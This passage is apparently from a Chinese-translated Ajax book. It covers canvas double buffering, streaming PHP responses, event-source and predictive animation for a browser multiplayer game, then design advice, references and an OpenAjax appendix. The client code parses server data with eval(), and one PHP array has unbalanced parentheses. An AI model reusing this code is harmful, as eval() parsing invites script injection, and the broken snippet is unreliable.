```

规则号 255，无论前一个状态是什么都会生成一个像素，这将导致在 canvas 上绘制 198,001 个像素，因为第一行在脚本中已经预先生成为一个位于行中心的像素。在 Firefox 中，这大约需要 5.58 秒来运行，在此期间浏览器会完全停止响应。Safari 耗时稍短，大约 5.15 秒，同样会在处理所有内容时出现浏览器冻结的情况。

另一方面，Opera 则在对象进行调用时立即绘制所有内容，如图 10.3 所示，因此耗时要短得多，大约 4.06 秒。

虽然这有助于 Opera 在 canvas 上绘制更复杂的图像，但在绘制动画时却损害了其性能，因为实际的渲染过程更长。Safari 和 Firefox 渲染此类密集帧可能需要更长时间，但这只是因为它们首先将所有调用排入内存队列，然后在线程返回后统一渲染。这种缓冲机制在渲染*不那么密集*的内容时有助于提升性能，因为浏览器不必渲染每一个单独的调用；它可以一次性将所有内容写入显示设备。

对于 *Universe Conflict* 游戏，其帧率各不相同。Firefox 平均约为每秒 95 帧，Safari 平均约为 55 帧，而 Opera 平均约为 60 帧。通过实现一个快速的修改方案，JavaScript Universe 类可以将所有内容渲染到一个隐藏的 canvas 上，仅在渲染完成后才显示它。这个快速修改方案以以下代码的形式实现：

```
Universe.prototype.init = function() {
    // 为交互准备空间
    this.space1 = document.getElementById("space");
    this.space2 = this.space1.cloneNode(true);
    this.frame1 = this.space1.getContext("2d");
    this.frame2 = this.space2.getContext("2d");
    this.space2.style.display = "none";
    this.space1.parentNode.insertBefore(this.space2, this.space1);
    document.body.setAttribute("tabIndex", -1);
    document.body.focus();

    // 准备地图和宇宙内容
    this.map = this.frame1;
    this.framerateDisplay = document.getElementById("framerate");
    this.event.map = this.map;
    this.height = parseInt(this.space1.getAttribute("height"));
    this.width = parseInt(this.space1.getAttribute("width"));
    this.dispatchEvent("init", this.event);
    this.jumpStartTheSecondBigBang();
}

Universe.prototype.tick = function() {
    if (this.ticking) {
        // 不显示的缓冲区
        this.map = (this.ticks & 2) ? this.frame2 : this.frame1;
        this.event.map = this.map;
        // 绘制
        this.draw();
        this.event.framerate = this.framerate;
        this.event.tickTime = this.tickTime;
        this.event.timeStamp = this.currentTick;
        this.dispatchEvent("tick", this.event);
        // 应用缓冲区
        if (this.ticks & 2) {
            this.space2.style.display = "block";
            this.space1.style.display = "none";
        } else {
            this.space1.style.display = "block";
            this.space2.style.display = "none";
        }
        // 再次开始
        setTimeout(this.preTick, 10);
    }
}
```

这两个方法特别确保了当前活动的缓冲区在显示缓冲区可见时保持隐藏。第一个方法 `init` 创建了对两个 `canvas` 元素的引用：一个来自 DOM，另一个是从第一个克隆而来。在 `universe` 对象的每次 `tick` 中，它会交替显示哪个 `canvas`，以及将哪个 `canvas` 传递给 `tick` 事件供所有事件监听器用于渲染。

这种双缓冲对 Safari 的性能没有影响，将 Firefox 的帧率降低到依然很高的 90 帧每秒，并将 Opera 的性能提升到平均 65 帧每秒。

这种差异可能会根据图形的复杂程度而变化。因此，像大多数其他工具一样，使用 Canvas 实现双缓冲需要考虑和测试，但它确实有助于提升 Opera 的 `canvas` 动画性能。

### 10.3 “实时”多人游戏

“实时”多人游戏对 Ajax 驱动的游戏提出了一个完全不同的要求：由于使用了无状态的 HTTP 协议，且请求只能从客户端发起，用户必须在对方操作发生后的几分之一秒内看到这些操作。动作游戏尤其需要尽可能保持“实时”计时，因为玩家通常需要同时执行各种机动动作。

#### 10.3.1 流式响应

即使在最理想的情况下，延迟仍然是 Ajax 驱动游戏开发中客户端/服务器通信的一个巨大问题。为了消除部分问题，响应可以从服务器流式传输，而不是重复相同的请求。这至少减少了延迟的影响，因为发起请求所需的时间每分钟只影响性能一到两次。这样，延迟只在一个方向（朝向客户端）影响通信，并减少了响应之间不可避免的停机时间。

为了让一个用户的操作同时在自己和对手的屏幕上移动他们的飞船，游戏需要将每个用户的位置发送到服务器，然后当其他用户的浏览器请求时，再将该位置返回。这种从浏览器到服务器、再从服务器到另一个浏览器的通信需要时间，但使用流式传输可以更顺畅地进行。

以下 JavaScript 代码是 `Wormhole` 类的一部分，它监视其被分配的飞船（即 `Ship` 类的 `wedge` 或 `pencil` 实例），并在飞船在屏幕上移动时将其当前位置传输到服务器。`position` 对象变量保存了飞船的 x 位置、y 位置、角度、x 速度、y 速度、加速度和旋转的值：

```
/**
 * 创建 AjaxRequest 实例并为其在游戏中的使用做准备
 */
Wormhole.prototype.createMessenger = function() {
    var dis = this;
```


this.messenger = request_manager.createAjaxRequest();
if (this.me == wedge) {
    this.messenger.get = {"ship" : "wedge"};
} else {
    this.messenger.get = {"ship" : "pencil"};
}
this.messenger.addEventListener(
    "load",
    function() {
        Wormhole.prototype.messageSent.apply(
            dis,
            arguments
        );
    }
);
}

/**
 * 查看它代表哪艘飞船，并创建监听器以
 * 在玩家游戏时监视他们的操作。它还启动了
 * 请求的循环，以便将持续更新的位置信息
 * 发送到服务器。
 */
Wormhole.prototype.prepare = function(which) {
    if (which == "wedge") {
        this.me = wedge;
        this.you = pencil;
    } else {
        this.me = pencil;
        this.you = wedge;
    }
    var me = this.me;
    document.body.addEventListener(
        "keypress",
        function() {
            Ship.prototype.onKeyPress.apply(me, arguments);
        },
        false
    );
    document.body.addEventListener(
        "keyup",
        function() {
            Ship.prototype.onKeyUp.apply(me, arguments);
        },
        false
    );
    this.open();
    this.sendSnapshot();
}

/**
 * 将每个位置快照发送到服务器
 */
Wormhole.prototype.sendSnapshot = function() {
    if (this.position != this.lastPosition) {
        if (!this.messenger) {
            this.createMessenger();
        }
        this.messenger.open("POST", "move.php");
        this.messenger.post = this.me.position;
        this.messenger.send();
        this.lastPosition = this.position;
    } else {
        // 如果没有变化，则模拟发送位置
        // 并手动调用回调函数
        this.messageSent();
    }
}

/**
 * 作为请求 load 事件的监听器被调用，
 * 在每次从服务器完成请求响应后，
 * 将请求速率设置为四分之一秒
 */
Wormhole.prototype.messageSent = function() {
    var dis = this;
    setTimeout(
        function() {
            Wormhole.prototype.sendSnapshot.apply(dis);
        },
        250
    )
}

服务器上的 PHP 代码随后读取此请求，并将位置写入文件缓存：

```php
if (isset($_POST)) {
    $data = array(
        'x' => (isset($_POST['x'])) ? (double)$_POST['x'] : 0,
        'y' => (isset($_POST['y'])) ? (double)$_POST['y'] : 0),
        'xspeed' => (isset($_POST['xspeed'])) ? (double)$_POST['xspeed'] : 0),
        'yspeed' => (isset($_POST['yspeed'])) ? (double)$_POST['yspeed'] : 0),
        'angle' => (isset($_POST['angle'])) ? (double)$_POST['angle'] : 0),
        'acceleration' => (isset($_POST['acceleration'])) ? (int)$_POST['acceleration'] : 0)
    );
    file_put_contents($file, json_encode($data), LOCK_EX);
}
```

另一个用户的浏览器现在需要获取此信息，以便将从另一个用户发送的位置信息渲染在屏幕上。下面的 PHP 代码展示了对上述写入文件的读取，在一个无限循环中读取，当文件修改时间发生变化时，每十分之一秒发送一次数据：

```php
$lastupdated = 0;

for (;;) {
    if (file_exists($file)) {
        $updated = filemtime($file);
        clearstatcache();
        if ($lastupdated != $updated) {
            $lastupdated = $updated;
            $position = file_get_contents($file);
            // 输出 JSON 响应
            echo '{"tickTime" : ',(time()-$updated),',"position" : ',$position,"}\n";
            flush();
        }
    }
    usleep(100000);
}
```

如果直接在浏览器中打开此代码，它会以 JSON 格式打印位置文件的内容，并在飞船在屏幕上移动时持续打印更改的内容。为了使用此数据，下面 `Wormhole` 类的另一半创建了另一个循环请求，这次向 `data` 事件添加一个事件监听器。每次位置更新时，监听器随即更新屏幕上对手飞船的位置：

```javascript
/*
 * 创建带有事件监听器的 AjaxRequest 实例
 */
Wormhole.prototype.createParallelUniverse = function() {
    var dis = this;
    this.parallelUniverse = request_manager.createAjaxRequest();
    if (this.you == wedge) {
        this.parallelUniverse.get = {"ship" : "wedge"};
    } else {
        this.parallelUniverse.get = {"ship" : "pencil"};
    }
    this.parallelUniverse.addEventListener(
        "data",
        function() {
            Wormhole.prototype.updateUniverse.apply(dis, arguments);
        }
    );
}

/*
 * 开始向服务器发送请求
 */
Wormhole.prototype.open = function() {
    if (!this.parallelUniverse) {
        this.createParallelUniverse();
    }
    this.parallelUniverse.open("GET", "update.php");
    this.parallelUniverse.send();
}

/*
 * 每次从服务器返回数据时，将响应文本的最后一行
 * 解析为 data 对象变量。这还会跟踪上次更新与
 * 数据本身时间之间的差值，以便计算出当数据
 * 到达此浏览器时飞船应该移动到的位置。
 */
Wormhole.prototype.updateUniverse = function(event) {
    if (event.request.xhr.responseText
            && event.request.xhr.responseText.length > 2) {
        this.data = eval("("+event.request.xhr.responseText.substring(
            event.request.xhr.responseText.lastIndexOf(
                "\n",
                event.request.xhr.responseText.length - 2
            ) + 1
        )+")");
        this.currentTick = new Date().getTime();
        // 总 tick = 服务器 tick 时间 + 请求时间
        this.tickTime = this.data.tickTime + this.currentTick - this.lastTick;
    }
}

/**
 * 在 universe 对象的每个 tick 事件上被调用
 */
Wormhole.prototype.draw = function(event) {
    if (this.lastTick != this.currentTick && this.data.position) {
        this.data.position.rotation = 0;
        this.you.position = this.data.position;
        Ship.prototype.draw.apply(this.you, [event]);
        this.lastTick = this.currentTick;
    }
}
```

现在，当对手从其自己的浏览器控制时，飞船在屏幕上移动。如果没有流式响应和到/从服务器的条件数据发送，响应返回的时间会更长，并且在最佳网络条件和浏览器性能下，飞船位置每秒也只会更新一两次。本节中的代码在使游戏可玩之前还有很长的路要走，但这至少为游戏提供了一个良好的开端，允许用户以接近实时的方式在彼此周围操控他们的飞船。

#### 10.3.2 WHATWG event-source 元素

目前仅在 Opera 中实现，`event-source` HTML5 元素（www.whatwg.org/specs/web-apps/current-work/#the-event-source）消除了之前描述的所有准备脚本的需要。它还消除了从响应文本中移除已返回数据的需要，因为它将每一行视为一个新的、唯一的事件。上面用于输出更新位置的 PHP 代码只需稍作更改即可发送这些事件。

为了使 event-source 数据与从服务器返回的流正常工作，内容需要有一个指定 `Content-Type` 为 `application/x-dom-event-stream` 的头部。接下来，不再为每一行发送纯 JSON，而只需按以下格式发送每一行：

```
Event: move
data: {/* 与之前发送的相同的实际 JSON 数据 */}
```

这发送了与之前完全相同的数据，但具有特定的事件类型 `move`，从而允许从单个流返回不同的事件类型。发送这种新格式的 PHP 代码看起来与之前使用的几乎完全相同：

```php
header('Content-Type: application/x-dom-event-stream');
$lastupdated = 0;

for (;;) {
    if (file_exists($file)) {
        $updated = filemtime($file);
        clearstatcache();
        if ($lastupdated != $updated) {
            $lastupdated = $updated;
            $position = file_get_contents($file);
            // 输出 JSON 响应
            echo "Event: move\n";
            echo 'data: {',
                '"tickTime" : ',
                (time()-$updated),
                ',"position" : ',
                $position,
                "}\n";
            flush();
        }
    }
    usleep(100000);
}
```

既然 PHP 可以返回 `event-source` 数据，该元素本身现在就可以存在于游戏本身的标记中：

```html
<event-source id="eventsource" src="update.php?ship=pencil">
</event-source>
```

`Wormhole` 类的 JavaScript 代码随后可以通过调用 `addEventListener`，简单地将其 `updateUniverse` 方法添加为 event-source 的监听器，如下所示：

```javascript
document.getElementById("eventsource").addEventListener(
    "move",
```


```
function() {
    Wormhole.prototype.updateUniverse.apply(dis, arguments);
},
false
);
```

此外，无需从`XMLHttpRequest`对象的`responseText`中解析最后一行以获取所需数据，`updateUniverse`方法可以将其逻辑更改为如下：

```
Wormhole.prototype.updateUniverse = function(event) {
    if (event.data) {
        this.data = eval("("+event.data+")");
        this.currentTick = new Date().getTime();
        // Total tick = server tick time + request time
        this.tickTime = this.data.tickTime + this.currentTick - this.lastTick;
    }
}
```

一旦更多浏览器支持`event-source`元素；此功能也将消除对流式`XMLHttpRequest`对象不稳定支持的依赖，这种支持可能因所用浏览器的不同而超时或不超时。它通过提供通过同一响应发送多个独立事件的能力，而无需手动编码响应事件类型的划分，使得流式响应更易于管理且更灵活。

#### 10.3.3 预测性动画

即使应用程序拥有这些从服务器流式传回响应的技术（即使应用程序可以使用`event-source`元素），直接从响应中动画化帧也永远不会奏效。即使在没有延迟卡顿且带宽远超应用程序所需的理想条件下，动画帧率仍不会超过每秒三到四帧。当用户期望帧率至少是此速度的十倍，以便游戏感觉可玩时，游戏需要找到一种方法来填补空白。

当位置信息从服务器返回且`Wormhole`对象将其分配给飞船时，飞船可以正常运行，并根据当前位置、角度、速度和加速度自行动画。此动画将使飞船的运动轨迹与加速度和角度保持不变时的预期轨迹保持一致。来自服务器的定期刷新将简单地校正动画，与不进行预测动画相比，产生的位置跳跃要小得多。

以下方法，三个来自`Matter`类，一个来自`Ship`类（继承自`Matter`），无论飞船是由用户控制还是由其对手在其浏览器中控制，都会移动飞船。来自`universe`对象的每个`tick`事件都会调用每个方法，并根据当前位置和自上次`tick`以来的时间量计算新的位置和方向：

```
Ship.prototype.drawShip = function(event) {
    event.map.save();
    event.map.lineWidth = this.lineWidth;
    event.map.lineCap = this.lineCap;
    event.map.strokeStyle = this.color;

    this.calculateRotation(event.tickTime);
    this.calculateSpeed(event.tickTime);
    this.calculatePosition(event.tickTime);

    event.map.beginPath();
    Draw.polygon(
        event.map,
        this.position.x,
        this.position.y,
        this.polygon,
        this.position.angle
    );
    event.map.stroke();
    event.map.restore();

    if (this.blownUp()) {
        this.dieHorribly();
        var dis = this;
        setTimeout(
            function() {
                Ship.prototype.regenerate.apply(dis);
            },
            1000
        );
    }
}
Matter.prototype.calculateRotation = function(tickTime) {
    if (this.position.rotation != 0) {
        this.position.angle = (this.position.rotation * this.rotationspeed * tickTime + this.position.angle) % 360;
        if (this.position.angle < 0) {
            this.position.angle += 360;
        }
    }
}

Matter.prototype.calculateSpeed = function(tickTime) {
    // From dead X stop
    if (this.position.xspeed == 0) {
        if (this.position.acceleration != 0) {
            // Start off with 1 to the right or left
            this.position.xspeed = (this.position.angle > 180) ? -1 : 1;
        }
    // Positive X speed
    } else if (this.position.angle < 180) {
        this.position.xspeed += ((90 - Math.abs(this.position.angle - 90)) / 90) * (this.position.acceleration * this.acceleration || 1) * tickTime;
        if (this.position.xspeed > this.topspeed) {
            this.position.xspeed = this.topspeed;
        }
    // Negative X speed
    } else if (this.position.angle > 180) {
        this.position.xspeed -= ((90 - Math.abs(this.position.angle - 270)) / 90) * (this.position.acceleration * this.acceleration || 1) * tickTime;
        if (this.position.xspeed < -this.topspeed) {
            this.position.xspeed = -this.topspeed;
        }
    }

    // From dead Y stop
    if (this.position.yspeed == 0) {
        if (this.position.acceleration != 0 && this.position.angle != 180) {
            // Start off with 1 to up or down
            this.position.yspeed = (this.position.angle - 180 < 0) ? -1 : 1;
        }
    // Positive Y speed
    } else if (this.position.angle != 90 && this.position.angle != 270) {
        this.position.yspeed += ((90 - Math.abs(this.position.angle - 180)) / 90) * (this.position.acceleration * this.acceleration || 1) * tickTime;
        if (this.position.yspeed > this.topspeed) {
            this.position.yspeed = this.topspeed;
        } else if (this.position.yspeed < -this.topspeed) {
            this.position.yspeed = -this.topspeed;
        }
    }
}

Matter.prototype.calculatePosition = function(tickTime) {
    this.position.x += this.position.xspeed * tickTime;
    if (this.position.x > universe.width) {
        this.position.x -= universe.width;
    } else if (this.position.x < 0) {
        this.position.x += universe.width;
    }
    this.position.y += this.position.yspeed * tickTime;
    if (this.position.y > universe.height) {
        this.position.y -= universe.height;
    } else if (this.position.y < 0) {
        this.position.y += universe.height;
    }
}
```

将这些方法应用于远程控制的飞船后，用户可以实时地相互操控移动。来自服务器的实际响应频率取决于方向和加速度的变化，从每四分之一秒一次到几秒一次不等。

# 第11章


## 本章内容

- 11.1 记住用户
- 11.2 为未来而设计
- 11.3 为未来而开发

Ajax驱动的Web应用程序所使用的方法论、架构和编码实践，与更传统的Web应用程序所使用的没有太大不同。然而，Ajax驱动的Web应用程序往往具有更灵活的架构和更强大的编码实践，而且由于用户期望更高，他们会更快地注意到性能下降、脚本错误增加以及界面不一致的问题。

通过对良好编码实践、设计一致性、可扩展性和抽象的重视，Ajax驱动的应用程序可以满足其用户和开发团队的期望。使应用程序成功确实需要所有相关人员的努力，但只要对可用性、可访问性、架构、调试实践、性能、可扩展性、安全性和文档给予足够的关注，成功就可以不费力地实现。

### 11.1 记住用户

开发人员和架构师很容易迷失在Web应用程序中，开始根据自身的利益而非用户的利益来塑造它。就像许多过度使用Flash、Applets和其他技术的情况一样，Ajax驱动的功能已经变得滥用，仅仅是为了使用该技术而实现；开发人员倾向于这样做，而不是将其作为解决应用程序问题的合理工具。

记住用户也意味着记住所有用户。有些用户使用的是较旧、较慢、内存较少的机器。有些用户通过拨号服务或源自公共无线接入点的VPN连接到互联网，连接速度慢且不可靠。有些用户的屏幕分辨率比你日常使用的要小得多（或大得多）。

有些用户看小字体的能力较弱，或难以区分形状普通、色彩丰富的图标。其他用户可能需要屏幕阅读器才能与应用程序交互，但这并不意味着应用程序不能拥有Ajax驱动的功能。它只意味着应用程序需要考虑这种可能的用例；幸运的是，由于WAI-ARIA在最常用的屏幕阅读器中构建了支持，开发人员可以更精细地控制屏幕阅读器的行为。
```


### 11.2 为未来而设计

从数据库模式设计到图形设计和布局，一切都会影响应用程序的未来发展。如果不对未来的设计变更进行思考和规划，开发团队可能会将自己设计到死角。当这种情况发生时，他们将没有足够的灵活性来进行必要的更改，除非采取极端措施并经历大量的重新设计和重新开发。

数据库模式至少应满足第三范式的要求；这种做法消除了对复杂子查询的需求，也无需从结果行中移除不必要的冗余数据。它还让开发者在后续开发中更容易扩展模式。表可以在后期添加，通过简单的连接即可将其与现有表关联起来。修改表结构仍然代价高昂，但需求频率应该会降低。

在设计应用程序架构时，你应使用足够灵活（但不过度架构）的应用程序结构，以便当开发者在未来添加或更改功能时，应用程序本身无需改变。通过遵循设计模式（在有帮助的情况下），开发者可以确保应用程序架构使开发本身更倾向于遵循灵活、易于维护的路径。这一点对服务器端应用和客户端应用都同样适用，因为一个架构良好、面向对象的JavaScript应用程序所带来的帮助，与一个相应设计的PHP应用程序是相似的。

界面布局本身对未来开发的灵活性也有其自身的设计要求。页面布局需要尽可能保持平衡，即使它们在不同区域包含或多或少的部件。一旦应用程序布局通过其设计形成整体风格，这种平衡就会自然产生，而新修改的界面部分也会各得其所。

### 11.3 为未来而开发

在编写代码时，对功能和逻辑进行抽象化使得处理应用程序变得容易得多，因为抽象化允许开发者只专注于需要他们关注的功能。没有适当的抽象化，编辑应用程序的一个区域就需要深入了解其他对象和函数的内部工作原理，而不仅仅是如何与它们交互。功能抽象化带来了与拥有第三范式模式相同的优势。通过抽象，能够添加功能以使用现有类，而无需修改它们或了解现有类的内部实现。

此外，在开发过程中，代码必须能够扩展以满足在最初编码时可能看似荒谬的场景需求。扩展性问题有可能累积并造成难以快速诊断和剖析的故障点。架构的扩展性会受损，当开发者看到较小部分的失败时，可能会对整个架构产生质疑。当开发者从一开始就编写可扩展的代码时，其他代码也会遵循可扩展的行为，将任何潜在的大量数据视为流，并尽可能缓存结果，而不是浪费资源。

安全性必须在应用程序的每个环节发挥作用，因为函数和方法都需要清理其输入，并转义所有发送到应用程序外部的内容；这一要求包括发送到数据库、标记、生成的脚本或其他任何包含某种被解释或标记语言的数据。通过确保应用程序的每个功能模块都符合应用程序的安全预期，未来编写（内部或外部）的代码可以以最小的风险安全地引用这些功能。

借助调试器、文档和代码分析器，开发者需要拥有最适合手头任务的工具，并且需要知道如何使用它们。设计模式也在开发者的工具箱中占有一席之地，它们应在适当的时候和场合使用。最终，开发者需要具备技术深度知识，有能力完全理解面临的挑战，并有能力评估情况并创建可行、可扩展的解决方案。

## 参考文献

- Crane, D., Pascarello, E., & James, D. (2005). *Ajax实战*. Greenwich: Manning.
- *CSS 讨论维基*. 检索于 2006年12月10日至2007年3月27日，来自 http://css-discuss.incutio.com.
- *Drosera 维基* (2006, 11月14日). 检索于 2007年1月27日，来自 http://trac.webkit.org/projects/webkit/wiki/Drosera.
- Ecma国际. (1999). *标准 ECMA-262 ECMAScript 语言规范* (第3版). 检索于 2006年12月10日，来自 www.ecma-international.org/publications/standards/Ecma-262.htm.
- Ecma国际. *什么是 Ecma 国际*. 检索于 2006年12月10日，来自 www.ecma-international.org/memento/index.html.
- Eichorn, J. (2006). *深入理解 Ajax：使用 JavaScript 创建富互联网应用程序*. Crawfordsville: Prentice Hall.
- Eichorn, J. (2007). *phpDocumentor 文档选择*. 检索于 2007年3月28日，来自 http://manual.phpdoc.org.
- Gross, C. (2006). *Ajax 模式与最佳实践*. Berkeley: Apress.
- Hewitt, J. (2007). *欢迎使用 Firebug 1.0*. 检索于 2007年1月27日，来自 http://video.yahoo.com/video/play?vid=cccd4aa02a3993ab06e56af731346f78.1755924.
- *JSON 简介*. 检索于 2007年3月17日，来自 http://json.org.
- Juicy Studio. (2006). *让 Ajax 与屏幕阅读器协同工作*. 检索于 2007年2月7日，来自 http://juicystudio.com/article/making-ajax-work-with-screen-readers.php.
- Koch, Peter-Paul. (2007). *Quirks 模式*. 检索于 2007年2月4日，来自 www.quirksmode.org.
- Mahemoff, M. (2006). *Ajax 设计模式*. Sebastopol: O'Reilly Media.
- Microsoft Corporation. (2005). *适用于 Windows NT 4.0 及更高版本的脚本调试器*. 检索于 2007年2月4日，来自 www.microsoft.com/downloads/details.aspx?familyid=2f465be-0-94fd-4569-b3c4-dffdf19ccd99.
- Microsoft Corporation. (2006). *Internet Explorer 开发者工具栏*. 检索于 2007年1月28日，来自 www.microsoft.com/downloads/details.aspx?FamilyID=e59c3964-672d-4511-bb3e-2d5e1db91038.
- MozDev.org. (2007). *TamperData*. 检索于 2007年3月3日，来自 http://tamperdata.mozdev.org.
- Mozilla 开发者中心. (2006). *Gecko DOM 参考*. 检索于 2007年1月12日，来自 http://developer.mozilla.org/en/docs/Gecko_DOM_Reference.
- MSDN. (2007). *关于 DHTML 对象模型*. 在 *Web 开发者中心* 中. 检索于 2007年1月8日，来自 http://msdn.microsoft.com/workshop/author/om/doc_object.asp.
- OpenAjax Alliance. (2007). *标准化 Ajax 开发*. 检索于 2007年5月15日，来自 www.openajax.org.
- Open Source. (2006). *JsUnit* (2006, 12月16日). 检索于 2007年2月18日，来自 www.jsunit.net.
- Opera Software ASA. (2007). *Opera 开发者工具*. 在 *Dev. Opera* 中. 检索于 2007年1月27日，来自 http://dev.opera.com/tools.
- Opera 浏览器和互联网套件. 在 *Opera wiki* 中. (2006, 12月18日). 检索于 2007年3月17日，来自 http://operawiki.info/Opera.
- Paciello Group Web, The. (2007). *Web 无障碍工具栏 [for Opera]*, *版本 1.1*. 检索于 2007年3月17日，来自 www.paciellogroup.com/resources/wat-about.html.
- Parakey, Inc. (2007). *Firebug*. 检索于 2007年1月27日，来自 www.getfirebug.com.
- PHP Documentation Group, The. (2007). *PHP 手册*. 检索于 2007年3月27日，来自 www.php.net/manual.
- Rethans, D. (2007). *Xdebug 扩展用于 PHP*. 检索于 2007年6月1日，来自 http://xdebug.org.
- SourceForge. (2007). *HTML tidy 库项目*. 检索于 2007年1月29日，来自 http://tidy.sourceforge.net.
- Svendtofte. (2006). *学习 JavaScript 调试器 Venkman*. 检索于 2007年2月4日，来自 www.svendtofte.com/code/learning_venkman.


*TextWiki*。检索于2007年3月3日，来源：http://macromates.com/wiki/Main/HomePage。

美国农业部国家自然资源保护局。(2007)。植物档案：圆叶茅膏菜。载于*PLANTS数据库*。检索于2007年1月27日，来源：http://plants.usda.gov/java/profile?symbol=DRRO。

第508条：1194.22 基于网络的内部网和互联网信息及应用。载于《美国康复法案》。(2006)。检索于2007年1月27日，来源：www.section508.gov/index.cfm?FuseAction=Content&ID=12#Web。

W3C。(1999)。*Web内容可访问性指南1.0*。Chisholm, W., Vanderheiden, G., 和 Jacobs, I.，编辑。检索于2007年4月23日，来源：www.w3.org/TR/WCAG10。

W3C。(1999)。*Web内容可访问性指南1.0检查点清单*。Chisholm, W., Vanderheiden, G., 和 Jacobs, I.，编辑。检索于2007年4月23日，来源：www.w3.org/TR/WCAG10/full-checklist.html。

W3C。(2000)。附录C：ECMAScript语言绑定。载于*文档对象模型（DOM）第2级事件规范*。Pixley, T. 和 Netscape Communications Corp，编辑。检索于2007年2月4日，来源：www.w3.org/TR/2000/REC-DOM-Level-2-Events-20001113/ecma-script-binding.html。

Wolfram Research。(2007)。*Mathworld：网络上最全面的数学资源*。检索于2007年5月27日，来源：http://mathworld.wolfram.com。

*XSS（跨站脚本）备忘单*。(2007, 3月22日)。检索于2007年3月30日，来源：http://ha.ckers.org/xss.html。

Yahoo! Inc.。(2007)。YUI剧场。载于*Yahoo! 开发者网络：Yahoo! UI库*。检索于2007年1月27日，来源：http://developer.yahoo.com/yui/theater。

Zakas, N., McPeak, J., & Fawcett, J.。(2006)。*Professional Ajax*。Indianapolis: Wiley Publishing。

# 附录 A


以下书籍受到了编辑和开发者社区的高度推荐，任何一本都非常适合作为本书的入门读物。

- Dave Crane, Eric Pascarello 和 Darren James 所著的 **Ajax实战** (2005) 对开发 Ajax 驱动的 Web 应用程序背后的概念进行了扎实的介绍，并辅以探索常见“Ajax化”功能的示例。它让读者熟悉设计模式，并演示了一些更受欢迎的 Ajax 框架的用法。
- Nicholas C. Zakas, Jeremy McPeak 和 Joe Fawcett 所著的 **Professional Ajax** (2007) 详细探讨了 Ajax 的历史和 `XMLHttpObject` 的用法。然后提供了数十个示例，从数据传输到完整的 Webmail 应用程序。
- Christian Gross 所著的 **Ajax Patterns and Best Practices** (2006) 深入探讨了最著名的 Ajax 驱动的 Web 应用程序所使用的模式。本书涵盖了抽象的缓存、导航模式，以及如何通过 Ajax 请求大量数据。
- Joshua Eichorn 所著的 **Understanding Ajax** (2006) 包含了目前对 Ajax 最全面的介绍之一，详细解释并演示了每个方法和属性的用法。然后描述了用于消费响应中数据的不同方法，以及如何开始将基于 Ajax 的功能集成到您当前的项目中。本书还涵盖了许多可用的 Ajax 库，并提供了一些您可以立即应用于自己的网站、博客或 Web 应用程序的示例。

以下网站提供了大量信息，应被任何 Web 开发者添加到浏览器书签中：

- **W3C (www.w3.org)** —— 万维网联盟在线提供了所有规范（从草案到最终版本）供所有人参考和审阅。各种工作组在 w3.org 上都有各自的站点，提供推荐实践、新闻和相关材料的参考。
- **Mozilla Developer Center (http://developer.mozilla.org)** —— 这个 wiki 包含了 Mozilla 渲染引擎内部及支持的所有技术信息。它有关于不同版本中引入的 JavaScript 支持的详细信息；它还包含关于 DOM 方法、属性和事件的信息，以及支持的各种标记格式的示例。
- **Quirks Mode (www.quirksmode.org)** —— Peter-Paul Koch 的网站和博客跟踪了标记、样式和脚本方面的浏览器兼容性问题。他提供了支持的属性和 DOM 方法的表格，以及关于如何克服浏览器不支持当前规范的详细编码示例；他还通过博客更新新信息、会议和出版物。
- **css-discuss (http://css-discuss.incutio.com)** —— css-discuss wiki 源自流量巨大的 css-discuss 邮件列表。它跟踪浏览器错误、CSS 布局、列表样式技术、对齐技巧以及许多其他在此无法一一列举的主题。邮件列表内外的设计师都为该网站做出贡献，它几乎可以回答任何关于“我该如何……？”的 CSS 问题。

# 附录 B



OpenAjax 联盟于 2006 年 2 月 1 日正式成立，成员包括 BEA、Borland、Dojo 基金会、Eclipse 基金会、Google、IBM、Laszlo Systems、Mozilla 公司、Novell、Openwave Systems、Oracle、Red Hat、Yahoo、Zend 和 Zimbra。该组织旨在创建一种方式，使开发者能够编写应用程序，而无需担心与其他库发生冲突，同时在可用时仍有一个安全的方法与其他库交互。

作为 OpenAjax 联盟工作的一部分，OpenAjax Hub 作为一个工具应运而生，使库和客户端应用程序能够以一种中心化、安全、抽象的方式进行交互。它允许将代码注册到特定的名称中，与变量和类名无关。它还提供了一种监听和发布到全局事件队列的方式，这样库就可以在不必包含另一个库 API 代码的情况下实现大量的集成。

# 一致性

符合 OpenAjax 并不意味着一个库必须依赖 Hub 才能工作。它确实意味着，如果该库恰好注意到在预期的 `window.OpenAjax` 命名空间中存在 Hub 的实现，它应该将自己注册为一个库，并使用 Hub 的方法以及它通常用于发布事件的方法来发布任何全局事件。

> 上一段特别引用了“Hub 的一个实现”，而不是 OpenAjax Hub。OpenAjax Hub 主要作为 Hub 规范的演示存在，而不是作为您必须包含在应用程序中的库。相反，您的库可以包含自己的 Hub 实现，只要在 `window.OpenAjax` 命名空间中尚未存在实现。符合 OpenAjax 的规则甚至建议库自己实现 Hub，尽管实现一致性并不要求这样做。

符合 OpenAjax 的库还需要确保它们不会阻止 Hub 的存在和正确工作。由于 Hub 主要保持在其自己的 `window.OpenAjax` 对象内，对于封装良好的库来说，避免与 Hub 冲突很容易且很快。这样，符合 OpenAjax 意味着遵循最佳实践，这只能对应用程序有所帮助。

例如，一个大型应用程序可能有几个全局可用的对象，所有这些对象都有自己的全局变量。通过将这些对象和库封装到它们自己的命名空间中，冲突的可能性会急剧下降。以前面章节中的 `AjaxRequest` 和相关类为例，类布局将类似于以下内容：

```javascript
/**
 * The global namespace
 */
if (typeof Frozen == "undefined") {
    Frozen = {
